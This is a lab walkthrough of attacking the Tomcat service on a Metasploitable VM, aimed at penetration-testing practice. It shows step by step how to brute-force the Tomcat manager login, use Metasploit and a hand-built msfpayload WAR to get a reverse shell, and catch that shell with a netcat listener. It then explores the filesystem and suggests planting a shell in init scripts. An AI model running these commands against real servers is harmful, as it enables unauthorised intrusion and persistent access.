




tomcat & coyote
Reference: https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote
Metasploitable/Apache/Tomcat and Coyote
Contents
• 1 Tomcat Service◇ 1.1 What is tomcat
◇ 1.2 What is coyote
• 2 Tomcat Recon
• 3 Metasploit Modules for Tomcat◇ 3.1 Login Credentials▪ 3.1.1 tomcat mgr login
◇ 3.2 Uploading Java Executable with Metasploit▪ 3.2.1 Automated Metasploit File Upload
▪ 3.2.2 Set Metasploit Options
▪ 3.2.3 Run the Exploit (Failure)
▪ 3.2.4 Run the Exploit (Worked)
▪ 3.2.5 Houston, We Have A Meterpreter Shell
◇ 3.3 Uploading Java Executable Manually▪ 3.3.1 Craft WAR Payload
▪ 3.3.2 Netcat Listener
▪ 3.3.3 Houston, We Have a Shell
▪ 3.3.4 Clean Up
• 4 Flags
Tomcat Service
We will attempt to abuse the Tomcat server in order to obtain access to the web server. The end goal is to obtain a shell on the web server.
Just a reminder of what the nmap scan returned about Apache Tomcat and Coyote:
10.0.0.27 8180 tcp http open Apache Tomcat/Coyote JSP engine 1.1
JSP stands for JavaServer Pages. All this means is, web pages accessed through port 8180 will be assembled by a Java web application.
What is tomcat
Apache Tomcat provides software to run Java applets in the browser. The nmap scan didn't return the version, so that's probably the first thing we'll want to figure out.
What is coyote
Coyote is a stand-alone web server that provides servlets to Tomcat applets. That is, it functions like the Apache web server, but for JavaServer Pages (JSP).
From the description of Coyote on the Tomcat page [1], it sounds like this server will be as susceptible to denial of service attacks as the Apache web server was.
Tomcat Recon
Let's start by doing some recon of the Tomcat server using the various HTTP scanners in Metasploit.
Running the HTTP dir scanner module turns up some goodies:
msf auxiliary(dir_listing) > use auxiliary/scanner/http/dir_scanner
msf auxiliary(dir_scanner) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(dir_scanner) > set RPORT 8180
RPORT => 8180
msf auxiliary(dir_scanner) > run
[*] Detecting error code
[*] Using code '404' as not found for 10.0.0.27
[*] Found http://10.0.0.27:8180/admin/ 200 (10.0.0.27)
[*] Found http://10.0.0.27:8180/jsp-examples/ 200 (10.0.0.27)
[*] Found http://10.0.0.27:8180/tomcat-docs/ 200 (10.0.0.27)
[*] Found http://10.0.0.27:8180/webdav/ 200 (10.0.0.27)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(dir_scanner) >
These turn up some interesting pages that can potentially be bypassed:
Metasploit Modules for Tomcat
The recon we do feeds into the choice of Metasploit modules that we make. First, we have a login page - this provides us with a way to brute-force login credentials. Second, we have a WebDAV interface, and a potential avenue for uploading a PHP shell. Third, the server works much like the Apache server, and is susceptible to denial of service attacks.
Login Credentials
We can do a comprehensive search for all Tomcat-related modules in metasploit:
msf > search tomcat
Matching Modules
================
Name Disclosure Date Rank Description
---- --------------- ---- -----------
auxiliary/admin/http/tomcat_administration normal Tomcat Administration Tool Default Access
auxiliary/admin/http/tomcat_utf8_traversal normal Tomcat UTF-8 Directory Traversal Vulnerability
auxiliary/admin/http/trendmicro_dlp_traversal normal TrendMicro Data Loss Prevention 5.5 Directory Traversal
auxiliary/dos/http/apache_commons_fileupload_dos 2014-02-06 normal Apache Commons FileUpload and Apache Tomcat DoS
auxiliary/dos/http/apache_tomcat_transfer_encoding 2010-07-09 normal Apache Tomcat Transfer-Encoding Information Disclosure and DoS
auxiliary/dos/http/hashcollision_dos 2011-12-28 normal Hashtable Collisions
auxiliary/scanner/http/tomcat_enum normal Apache Tomcat User Enumeration
auxiliary/scanner/http/tomcat_mgr_login normal Tomcat Application Manager Login Utility
exploit/multi/http/struts_code_exec_classloader 2014-03-06 manual Apache Struts ClassLoader Manipulation Remote Code Execution
exploit/multi/http/struts_default_action_mapper 2013-07-02 excellent Apache Struts 2 DefaultActionMapper Prefixes OGNL Code Execution
exploit/multi/http/struts_dev_mode 2012-01-06 excellent Apache Struts 2 Developer Mode OGNL Execution
exploit/multi/http/tomcat_mgr_deploy 2009-11-09 excellent Apache Tomcat Manager Application Deployer Authenticated Code Execution
exploit/multi/http/tomcat_mgr_upload 2009-11-09 excellent Apache Tomcat Manager Authenticated Upload Code Execution
exploit/multi/http/zenworks_configuration_management_upload 2015-04-07 excellent Novell ZENworks Configuration Management Arbitrary File Upload
post/windows/gather/enum_tomcat normal Windows Gather Apache Tomcat Enumeration
We will focus on three modules:
auxiliary/scanner/http/tomcat_mgr_login
exploit/multi/http/tomcat_mgr_deploy
exploit/multi/http/tomcat_mgr_upload
Specifically, to obtain login credentials, we'll focus on tomcat_mgr_login.
tomcat mgr login
This module is, obviously, for logging into Tomcat.
Here is info on this module from the Rapid7 website: https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login
Printing out the various options, it looks like a brute force method:
msf > use auxiliary/scanner/http/tomcat_mgr_login
msf auxiliary(tomcat_mgr_login) > show info
Name: Tomcat Application Manager Login Utility
Module: auxiliary/scanner/http/tomcat_mgr_login
License: Metasploit Framework License (BSD)
Rank: Normal
Provided by:
MC <mc@metasploit.com>
Matteo Cantoni <goony@nothink.org>
jduck <jduck@metasploit.com>
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
BLANK_PASSWORDS false no Try blank passwords for all users
BRUTEFORCE_SPEED 5 yes How fast to bruteforce, from 0 to 5
DB_ALL_CREDS false no Try each user/password couple stored in the current database
DB_ALL_PASS false no Add all passwords in the current database to the list
DB_ALL_USERS false no Add all users in the current database to the list
PASSWORD no A specific password to authenticate with
PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt no File containing passwords, one per line
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target address range or CIDR identifier
RPORT 8080 yes The target port
STOP_ON_SUCCESS false yes Stop guessing when a credential works for a host
TARGETURI /manager/html yes URI for Manager login. Default is /manager/html
THREADS 1 yes The number of concurrent threads
USERNAME no A specific username to authenticate as
USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt no File containing users and passwords separated by space, one pair per line
USER_AS_PASS false no Try the username as the password for all users
USER_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt no File containing users, one per line
VERBOSE true yes Whether to print output for all attempts
VHOST no HTTP server virtual host
Description:
This module simply attempts to login to a Tomcat Application Manager
instance using a specific user/pass.
References:
http://cvedetails.com/cve/2009-3843/
http://www.osvdb.org/60317
http://www.securityfocus.com/bid/37086
http://cvedetails.com/cve/2009-4189/
http://www.osvdb.org/60670
http://www.harmonysecurity.com/blog/2009/11/hp-operations-manager-backdoor-account.html
http://www.zerodayinitiative.com/advisories/ZDI-09-085
http://cvedetails.com/cve/2009-4188/
http://www.securityfocus.com/bid/38084
http://cvedetails.com/cve/2010-0557/
http://www-01.ibm.com/support/docview.wss?uid=swg21419179
http://cvedetails.com/cve/2010-4094/
http://www.zerodayinitiative.com/advisories/ZDI-10-214
http://cvedetails.com/cve/2009-3548/
http://www.osvdb.org/60176
http://www.securityfocus.com/bid/36954
http://tomcat.apache.org/
http://cvedetails.com/cve/1999-0502/
We'll definitely want to try blank passwords. Let's set some options:
msf auxiliary(tomcat_mgr_login) > workspace metasploitable
[*] Workspace: metasploitable
msf auxiliary(tomcat_mgr_login) > set BLANK_PASSWORDS true
BLANK_PASSWORDS => true
msf auxiliary(tomcat_mgr_login) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(tomcat_mgr_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180
Now fire it up:
msf auxiliary(tomcat_mgr_login) > run
msf auxiliary(tomcat_mgr_login) > run
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: admin:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: manager:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: role1:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:s3cret (Incorrect: )
[+] 10.0.0.27:8180 - LOGIN SUCCESSFUL: tomcat:tomcat
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:both (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both: (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:admin (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:manager (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:role1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:root (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:tomcat (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: both:s3cret (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: j2deployer:j2deployer (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: cxsdk:kdsxc (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: root:owaspbwa (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: ADMIN:ADMIN (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: xampp:xampp (Incorrect: )
[-] 10.0.0.27:8180 TOMCAT_MGR - LOGIN FAILED: QCC:QLogic66 (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Success! The username/password
tomcat/tomcat will get us access to the server.
Uploading Java Executable with Metasploit
Just as obtaining a remote shell on the web server with Apache required uploading and executing a PHP script (see Metasploitable/Apache/DAV), obtaining a remote shell on the web server will require uploading and executing a file - but for Tomcat, the executable must be a JSP (JavaServer Pages) application.
Automated Metasploit File Upload
This is contained in the tomcat_mgr_upload module:
msf auxiliary(dir_scanner) > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > show options
Module options (exploit/multi/http/tomcat_mgr_upload):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD no The password for the specified username
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOST yes The target address
RPORT 80 yes The target port
TARGETURI /manager yes The URI path of the manager app (/html/upload and /undeploy will be used)
USERNAME no The username to authenticate as
VHOST no HTTP server virtual host
Exploit target:
Id Name
-- ----
0 Java Universal
Set Metasploit Options
Set some options for this exploit. We'll use the credentials we already found.
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180
The
TARGETURIvariable should be left to the default,
manager/ - not set to admin.
msf exploit(tomcat_mgr_upload) > set TARGETURI /manager
TARGETURI => /manager
Additionally, we'll need to set the target architecture:
msf exploit(tomcat_mgr_upload) > show targets
Exploit targets:
Id Name
-- ----
0 Java Universal
1 Windows Universal
2 Linux x86
msf exploit(tomcat_mgr_upload) > set TARGET 0
TARGET => 0
Run the Exploit (Failure)
Now we are ready to run:
msf exploit(tomcat_mgr_upload) > run
[*] Started reverse TCP handler on 10.0.0.25:4444
[*] 10.0.0.27:8180 - Retrieving session ID and CSRF token...
[*] 10.0.0.27:8180 - Finding CSRF token...
[*] 10.0.0.27:8180 - Uploading and deploying t1wR96yByt0JeBpX5z7z...
[*] 10.0.0.27:8180 - Uploading 6081 bytes as t1wR96yByt0JeBpX5z7z.war ...
[*] 10.0.0.27:8180 - Executing t1wR96yByt0JeBpX5z7z...
[*] 10.0.0.27:8180 - Executing /t1wR96yByt0JeBpX5z7z/UXnJq.jsp...
[*] 10.0.0.27:8180 - Finding CSRF token...
[*] 10.0.0.27:8180 - Undeploying t1wR96yByt0JeBpX5z7z ...
[*] Exploit completed, but no session was created.
Does not work. Not sure why.
After running the above exploit, I can log into the management page and see the WAR is successfully being uploaded by Metasploit, and that the module is active and running.
Can configure the correct path to the Tomcat manager (which is
/manager).
(Note: many admins will disable these Tomcat modules or change the name of directories.)
Run the Exploit (Worked)
I set this aside for a day, and found another workaround (covered below). But then, later, the exploit worked as intended.
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180
msf exploit(tomcat_mgr_upload) > run
[*] Started reverse TCP handler on 10.0.0.5:4444
[*] 10.0.0.27:8180 - Retrieving session ID and CSRF token...
[*] 10.0.0.27:8180 - Uploading and deploying cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Executing cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Undeploying cjMiuUTZpif5w0UB5FgrZY ...
[*] Sending stage (45741 bytes) to 10.0.0.27
[*] Meterpreter session 1 opened (10.0.0.5:4444 -> 10.0.0.27:50621) at 2016-03-30 19:33:50 -0700
meterpreter >
Houston, We Have A Meterpreter Shell
Now we have a meterpreter shell! Over and on to
Meterpreter.
Uploading Java Executable Manually
For some reason, the metasploit automated payload deployment had some problems. However, we can still exploit this server manually.
The management web interface gives us a place to upload WAR files, and a way to execute them manually.
We can use Metasploit to craft a WAR file with the payload, then manually upload and execute it.
Craft WAR Payload
http://securitypadawan.blogspot.com/2011/11/attacking-metasploitable-tomcat-this-is.html
# msfpayload linux/x86/shell_reverse_tcp LHOST=10.0.0.25 LPORT=4444 W > runme.war
Now we upload the runme.war file, and set it running on the Tomcat server:
Note that this does NOT execute the payload yet!!!
To execute the payload and run the actual war file, we will need to visit the page http://10.0.0.27:8180/runme/. However, this will try and connect to our command-and-control server on port 4444, and we need to be listening for the incoming connection.
We'll use netcat to receive the incoming shell once the WAR file is executed.
Netcat Listener
Now we set netcat listening on port 4444, the port we hard-coded into our payload:
# nc -v -l -p 4444
Now, netcat will listen for the incoming connection, so you're ready to execute your payload.
Once the
runme.war module is enabled through the Tomcat server, visit the applet in your browser:
http://10.0.0.27:8180/runme/
You'll see the incoming TCP connection in netcat.
root@morpheus:~# nc -v -l -p 4444
listening on [any] 4444 ...
10.0.0.27: inverse host lookup failed: Unknown host
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.27] 35148
Houston, We Have a Shell
Congrats - we've got ourselves a shell!
The shell is nothing fancy, but it lets us do some things on the filesystem.
We are the tomcat 5.5 user:
id
uid=110(tomcat55) gid=65534(nogroup) groups=65534(nogroup)
Here I list the contents of the root directory:
cd /
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
Note that you are not root so you cannot modify files that you don't own. Same goes for trying to access SSH keys - if they're read-only for that user, you won't be able to see them.
ls -la
lrwxrwxrwx 1 root root 9 2012-05-14 00:26 .bash_history -> /dev/null
drwxr-xr-x 4 msfadmin msfadmin 4096 2010-04-17 14:11 .distcc
drwx------ 2 msfadmin msfadmin 4096 2016-03-29 06:25 .gconf
drwx------ 2 msfadmin msfadmin 4096 2016-03-29 06:25 .gconfd
-rw-r--r-- 1 msfadmin msfadmin 586 2010-03-16 19:12 .profile
-rwx------ 1 msfadmin msfadmin 4 2012-05-20 14:22 .rhosts
drwx------ 2 msfadmin msfadmin 4096 2010-05-17 21:43 .ssh
drwxr-xr-x 6 msfadmin msfadmin 4096 2010-04-27 23:44 vulnerable
-rw------- 1 msfadmin msfadmin 60 2016-03-27 19:14 .Xauthority
touch .bash_history
ls -la
total 40
drwxr-xr-x 7 msfadmin msfadmin 4096 2016-03-27 19:14 .
drwxr-xr-x 6 root root 4096 2010-04-16 02:16 ..
lrwxrwxrwx 1 root root 9 2012-05-14 00:26 .bash_history -> /dev/null
drwxr-xr-x 4 msfadmin msfadmin 4096 2010-04-17 14:11 .distcc
drwx------ 2 msfadmin msfadmin 4096 2016-03-29 06:25 .gconf
drwx------ 2 msfadmin msfadmin 4096 2016-03-29 06:25 .gconfd
-rw-r--r-- 1 msfadmin msfadmin 586 2010-03-16 19:12 .profile
-rwx------ 1 msfadmin msfadmin 4 2012-05-20 14:22 .rhosts
drwx------ 2 msfadmin msfadmin 4096 2010-05-17 21:43 .ssh
drwxr-xr-x 6 msfadmin msfadmin 4096 2010-04-27 23:44 vulnerable
-rw------- 1 msfadmin msfadmin 60 2016-03-27 19:14 .Xauthority
You can also dump the contents of the startup scripts:
cd /etc/init.d
ls
You could modify one of these services (or add a new one) to open a netcat shell. Need some additional practice with these netcat shells. It's possible to use a text editor like vi, but also very clunky.
It should be a lot easier to utilize an open reverse TCP connection to transfer files with netcat.
http://securitypadawan.blogspot.com/2011/11/attacking-metasploitable-tomcat-this-is.html
Clean Up
Remove the runme war file by going back to http://10.0.0.27:8180/manager/html and clicking "Undeploy".
{kind=link}
{kind=link}